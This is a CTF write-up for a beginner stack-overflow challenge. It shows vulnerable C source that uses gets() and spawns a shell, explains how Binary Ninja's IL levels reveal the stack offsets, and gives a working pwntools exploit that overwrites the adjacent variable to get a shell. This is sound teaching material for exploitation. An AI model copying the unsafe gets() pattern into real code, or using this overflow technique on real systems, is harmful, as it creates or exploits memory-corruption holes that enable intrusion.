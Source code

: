 # Challenge

I really love the Sunshine CTF's Speedruns for teaching PWNing. This problem set is inspired by those.

#1. Smash a variable

nc 0.cloud.chals.io 19595

Author: ProfNinja

Attached: dist.zip

# Solution

You can see from the source that there is a variable following a buffer.  And
if this variable gets set to 0x1337 then we spawn a shell we can use to print
the flag from.

```
int main(){
    char buf[0x100];
    int overwrite_me;
    overwrite_me = 1234;
    puts("Welcome to PWN 101, smash my variable please.\n");
    gets(buf);
    if (overwrite_me == 0x1337){
        system("/bin/sh");
    }
    return 0;
}
```

So I guess right away that I can just shove 0x100 'A's into the buf followed by
0x1337...  But I'm also gonna need to know how big that integer is (is this a
32-bit or 64-bit binary).  So let me check it out real quick in Binary Ninja...

![Pseudo C of main function](main_func_binja_pseudo_c.png)

What the heck.... no condition at all!  Binja isn't displaying any branch at
all because it knows that the variable overwrite_me is only set 1 time when it
is declared, and thus value can never change, so this conditional branch will
never be executed under any circumstance, just omit from the Pseudo-C to make
the decompiled code simpler.

Usually this is fine, but doesn't work out the best for us in this instance.
But it's very easy to look at the lower level intermediate languages to get a
better view into what the code is doing.

The Medium Level IL (MLIL) shows the following:

![MLIL for main function](main_func_binja_mlil.png)

Well, we see the branch now, but the MLIL has still optimized out the
expression in the conditional to true!

Going lower, to the Low Level IL (LLIL):

![LLIL for main function](main_func_binja_llil.png)

So this now gives me a better understanding.  I can see the conditional is
looking at rbp - 0x4.  And the buf we are reading into is at rbp - 0x110.

So create a padding of 0x10c bytes, followed by a 32-bit bit integer (DWORD)
with the value 0x1337, followed by a newline.  Executing our pwntools
script will give us a remote shell which we can use to print out the flag.

```
#!/usr/bin/env python3

from pwn import *

print("Start pwning")

sh = process("./pwnme")
#sh = remote("0.cloud.chals.io",19595)

payload = b"A" * (0x110 - 4)

payload += p32(0x1337)
payload += b"\n"

sh.send(payload)
sh.interactive()
```
